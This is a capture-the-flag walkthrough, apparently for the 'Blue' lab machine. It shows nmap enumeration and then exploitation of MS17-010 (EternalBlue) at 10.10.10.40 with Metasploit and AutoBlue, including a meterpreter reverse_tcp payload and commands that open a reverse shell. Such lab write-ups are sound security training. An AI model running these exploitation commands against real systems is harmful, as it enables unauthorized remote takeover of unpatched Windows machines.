



# Blue

## 1. Overview

### 1.1. Attacks

* Eternal Blue

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `AutoBlue`, `Metasploit`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports





**Finding:** Port 445 (Windows 7 Professional 7601) &rarr; ETERNAL BLUE

##### 2.1.1.2. Host Details



### 2.2. Exploitation

#### 2.2.1. Sources

[AutoBlue-MS17-010 ](https://github.com/3ndG4me/AutoBlue-MS17-010)

#### 2.2.2. Metasploit

To check if it is vulnerable to MS17-010:

```msf
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 10.10.10.40
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

Now onto exploitation:

```msf
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

#### 2.2.3. AutoBlue

To check if it will work:

```sh
python eternal_checker.py 10.10.10.40
```

Now onto exploitation:

```sh
shellcode/shell_prep.sh
```

```sh
./listener_prep.sh
```

Now we have a listener at the ports we determined, let's get the shell now. Open a new tab of the Terminal and run:

```sh
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
```

And now we have a session in the previous tab with Metasploit.